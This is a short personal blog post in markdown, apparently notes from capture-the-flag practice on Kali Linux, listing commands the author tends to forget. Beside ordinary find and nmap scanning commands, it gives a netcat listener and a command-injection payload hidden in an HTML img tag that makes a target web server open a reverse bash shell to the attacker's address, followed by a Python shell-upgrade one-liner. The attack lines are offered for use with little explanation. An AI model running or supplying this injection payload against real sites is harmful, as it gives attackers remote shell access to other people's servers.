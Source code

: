 ```yaml
---
title: "CMD Line Tool: Commanda I forget"
date: 2021-01-28T14:34:30-04:00
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - tool
  - commands
  - find
  - nmap
  - improve shell
  - web shell
---
```


## Commands used on Kali Linux 2020


You can use redirect the Standard Error Output from (Generally Display/Screen) to some file and avoid seeing the error messages on the screen! redirect to a special file /dev/null :

```yaml
find / -name 'user.txt' 2>/dev/null

#Always look for backups with passwords in them with find command
```
##More

Good complete scan if you want to also save to file

nmap -sC -sV -A -o scanresults.txt 10.10.10.209 

Scan for vulns with:

nmap -v --script vuln 10.10.10.209 and also nmap -sV --script=all 10.10.10.209

If a web site allows you to send messages from a page open a listener and send this script

```yaml
 Note open a nc listener first - nc -nlvp 1234
# use this when a web site allows a message to be inserted in a field

<img src=http://10.10.14.21/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.21'$IFS'1234')>

```

Improve a shell once you get it:

# improve shell python3 -c 'import pty;pty.spawn("/bin/bash")'




